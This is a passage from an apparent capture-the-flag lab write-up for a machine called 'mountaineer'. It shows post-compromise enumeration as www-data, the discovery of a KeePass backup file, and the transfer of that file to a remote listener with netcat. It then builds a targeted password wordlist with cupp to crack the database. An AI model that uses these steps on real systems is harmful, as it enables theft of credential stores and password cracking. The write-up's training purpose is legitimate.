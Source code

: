 ```bash
www-data@mountaineer:~$ find . -type f 2>/dev/null

[REDACTED] - MORE

./kangchenjunga/.bash_history
./kangchenjunga/local.txt
./kangchenjunga/mynotes.txt
./nanga/ToDo.txt
./lhotse/Backup.kdbx

[REDACTED] - MORE

www-data@mountaineer:~$ ls -lsa /home/lhotse/Backup.kdbx
4 -rwxrwxrwx 1 lhotse lhotse 2302 Apr  6  2024 /home/lhotse/Backup.kdbx

www-data@mountaineer:~$ 
```

`nc -l -p 11342 > Backup.kdbx`

```bash
www-data@mountaineer:~$ nc -w 3 10.2.37.37 11342 < /home/lhotse/Backup.kdbx
www-data@mountaineer:~$ 
```

`file Backup.kdbx`

```bash
Backup.kdbx: Keepass password database 2.x KDBX
```

> **Creating Wordlist Phase**
> 

`cupp -i`

```bash
[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Mount
> Surname: Lhotse
> Nickname: MrSecurity
> Birthdate (DDMMYYYY): 18051956

> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 

> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 

> Pet's name: Lhotsy
> Company name: BestMountainsInc

> Do you want to add some key words about the victim? Y/[N]: 
> Do you want to add special chars at the end of words? Y/[N]: 
> Do you want to add some random numbers at the end of words? Y/[N]:
> Leet mode? (i.e. leet = 1337) Y/[N]: 

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to mount.txt, counting 1926 words.
[+] Now load your pistolero with mount.txt and shoot! Good luck!

```
